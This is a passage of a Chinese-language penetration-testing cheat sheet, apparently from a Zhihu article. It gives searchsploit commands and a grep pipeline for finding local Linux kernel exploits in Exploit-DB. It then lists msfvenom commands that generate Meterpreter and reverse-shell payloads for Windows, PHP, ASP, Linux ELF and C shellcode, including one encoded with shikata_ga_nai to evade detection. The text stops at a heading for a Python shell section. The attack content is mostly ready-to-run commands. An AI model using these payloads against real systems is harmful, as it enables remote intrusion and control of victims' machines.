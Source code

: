 
### 31.基于 CSV 文件查询 Exploit-DB

ExploitDB 是一个面向全世界黑客的漏洞提交平台，该平台会公布最新漏洞的相关情况，这些可以帮助企业改善公司的安全状况，同时也以帮助安全研究者和渗透测试工程师更好的进行安全测试工作。Exploit-DB提供一整套庞大的归档体系，其中涵盖了各类公开的攻击事件、漏洞报告、安全文章以及技术教程等资源。

> 
<pre>git clone https://github.com/offensive-security/exploit-database.git
cd exploit-database
./searchsploit –u
./searchsploit apache 2.2
./searchsploit "Linux Kernel"


cat files.csv | grep -i linux | grep -i kernel | grep -i local | grep -v dos | uniq | grep 2.6 | egrep "&lt;|&lt;=" | sort -k3</pre>


### 32.MSF Payloads

MSF是一个免费的、可下载的框架，通过它可以很容易地获取、开发并对计算机软件漏洞实施攻击。它本身附带数百个已知软件漏洞的专业级漏洞攻击工具。

windows下安装MSF： [https://www. cnblogs.com/M0rta1s/p/1 1619727.html](https://link.zhihu.com/?target=https%3A//www.cnblogs.com/M0rta1s/p/11619727.html)

KALI自带

拓展学习： [https:// blog.csdn.net/rentian1/ article/details/88921336](https://link.zhihu.com/?target=https%3A//blog.csdn.net/rentian1/article/details/88921336)

拓展学习： [https://www. freebuf.com/sectool/210 292.html](https://link.zhihu.com/?target=https%3A//www.freebuf.com/sectool/210292.html)

> 
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=&lt;IP Address&gt; X &gt; system.exe
msfvenom -p php/meterpreter/reverse_tcp LHOST=&lt;IP Address&gt; LPORT=443 R &gt; exploit.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=&lt;IP Address&gt; LPORT=443 -e -a x86 --platform win -f asp -o file.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=&lt;IP Address&gt; LPORT=443 -e x86/shikata_ga_nai -b "\x00" -a x86 --platform win -f c</pre>


### 33.MSF 生成在 Linux 下反弹的 Meterpreter Shell

> 
<pre>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=&lt;IP Address&gt; LPORT=443 -e -f elf -a x86 --platform linux -o shell</pre>


### 34.MSF 生成反弹 Shell (C Shellcode)

> 
<pre>msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d" -a x86 --platform win -f c</pre>


#### 35.MSF 生成反弹 Python Shell
